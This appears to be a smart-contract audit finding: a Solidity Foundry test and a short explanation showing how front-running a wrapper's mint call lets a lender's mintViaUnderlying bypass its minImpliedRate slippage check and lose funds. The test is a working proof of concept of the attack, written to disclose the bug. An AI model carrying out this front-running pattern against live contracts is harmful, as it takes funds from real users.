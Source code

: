 ```solidity
    function testDepositViaUnderlying() public {
        address alice = makeAddr("alice");
        deal(address(asset), LENDER, 8800 * precision, true);
        deal(address(asset), alice, 5000 * precision, true);

        //alice deal.
        vm.stopPrank();
        vm.startPrank(alice);
        asset.approve(address(w), type(uint256).max);
        
        //==============================LENDER START=============================//
        vm.stopPrank();
        vm.startPrank(LENDER);
        asset.approve(address(w), type(uint256).max);
        //user DAI balance before:
        assertEq(asset.balanceOf(LENDER), 8800e18);

        (/* */, uint256 maxFCash) = w.getTotalFCashAvailable();
        console2.log("current maxFCash:",maxFCash);

        //LENDER mintViaUnderlying will revert due to slippage.
        uint32 minImpliedRate = 0.15e9;
        vm.expectRevert("Trade failed, slippage");
        w.mintViaUnderlying(5000e18,5000e8,LENDER,minImpliedRate);
        //==============================LENDER END=============================//

        //======================alice frontrun to mint some shares.============//
        vm.stopPrank();
        vm.startPrank(alice);
        w.mint(5000e8,alice);

        //==========================LENDER TX =================================//
        vm.stopPrank();
        vm.startPrank(LENDER);
        asset.approve(address(w), type(uint256).max);
        //user DAI balance before:
        assertEq(asset.balanceOf(LENDER), 8800e18);

        //LENDER mintViaUnderlying will success.
        w.mintViaUnderlying(5000e18,5000e8,LENDER,minImpliedRate);

        console2.log("lender mint token:",w.balanceOf(LENDER));
        console2.log("lender cost DAI:",8800e18 - asset.balanceOf(LENDER));
    }
```

From the above test, we can observe that if `maxFCasha` is greater than `5000e8`, the lender's transaction will be reverted due to "Trade failed, slippage." Subsequently, if Alice front-runs by invoking `mint` to create some shares before the lender, the lender's transaction will succeed. Therefore, the lender's `minImpliedRate` check will be bypassed, leading to a loss of funds for the lender.
